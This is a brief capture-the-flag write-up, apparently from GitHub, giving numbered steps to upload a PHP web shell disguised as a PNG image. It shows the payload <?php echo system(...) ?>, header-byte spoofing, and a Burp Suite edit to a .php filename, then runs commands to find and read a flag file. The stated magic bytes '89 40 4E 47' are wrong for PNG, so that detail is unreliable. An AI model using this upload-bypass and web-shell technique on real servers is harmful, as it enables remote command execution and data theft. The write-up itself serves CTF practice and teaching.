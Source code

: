 1. the file should end with .png file
2. first we create file shell.png which the value of text is <?php echo system("whoami") ?>
3. modify 4 bytes to 89 40 4E 47 to make this file like image/png
4. upload the file to website
5. open burpsuite to edit the request
6. change Content-type to application/php, and filename to shell.png.php
7. send request
8. then look into directory /uploads/shell.png.php
9. we've execute whoami command to the server
10. now we may find .txt file in / directory by changing  <?php echo system("find / -name *.txt") ?>
11. try step 7 until 9
12. we see suspicious file /var/www/html/GAZWIMLEGU2DQ.txt
13. try to cat its
14. boom, the flag is showen up

